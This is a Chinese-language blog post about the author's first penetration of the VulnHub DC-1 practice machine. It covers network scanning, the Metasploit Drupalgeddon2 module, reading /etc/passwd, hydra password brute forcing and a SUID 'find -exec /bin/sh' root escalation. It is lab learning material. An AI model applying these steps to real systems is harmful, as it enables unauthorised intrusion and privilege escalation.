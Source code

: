 ```yaml
---
layout: post
title: "DC-1"
date: 2019-9-14
description: "我的第一次渗透DC-1"
tag: 渗透
---
```




## 我的第一次渗透
[靶机地址](https://www.vulnhub.com/entry/dc-1-1,292/)

渗透的环境为kali ***readyGo***

---
### 获取信息
+ `arp-scan -l`

获取当前局域网内的IP
![arp-scan](../images/posts/DC-1-1/arp.png)

出现了*192.168.79.2*和*192.168.79.131* **-_-！** 怎么会有两个IP，不管了一个一个试吧

+ `nmap -A -p0-65535 192.168.79.2`
+ `nmap -A -p0-65535 192.168.79.131`

192.168.79.2这个IP搞不懂到底是哪儿的，nmap扫出来后看到只开放了dns解析服务，所以靶机不是它。192.168.79.131我来了

![nmap](../images/posts/DC-1-1/nmap.png)

看到它开放了80端口使用的cms为drupal

### 查找漏洞
使用 **Metasploit** 查找该cms的漏洞
+ `search drupal`

![search](../images/posts/DC-1-1/search.png)

选择2018-03-28这个漏洞

+ `use exploit/unix/webapp/drupal_drupalgeddon2 `
+ `show options`
+ `set rhosts 192.168.79.131`

![show](../images/posts/DC-1-1/show.png)

设置required为yes的参数，GO！！！

### 成功获取到shell

![shell](../images/posts/DC-1-1/shell.png)

+ `cat /etc/passwd`查看电脑上有哪些用户

![passwd](../images/posts/DC-1-1/passwd.png)

看到有flag4用户，直接hydra走一波~~~等待的过程总是漫长的，我讨厌爆破，但也是我目前唯一会的. . . . . .

![hydra](../images/posts/DC-1-1/hydra.png)

看到密码为orange

![hint](../images/posts/DC-1-1/hint.png)

官方提示需要读取的flag在/root下，SO

### 提权
+ `find / -type f -prem -u=s 2>/dev/null`
查看有哪些命令具有suid权限

+ `find / -name flag4 -exec "/bin/sh" \;`

![root](../images/posts/DC-1-1/root.png)

#### 我的第一次靶机渗透成功

![success](../images/posts/DC-1-1/success.png)

linux命令必须得玩透！！！不然就是一脸懵逼，提权全靠别人写好的博客。。。太难了
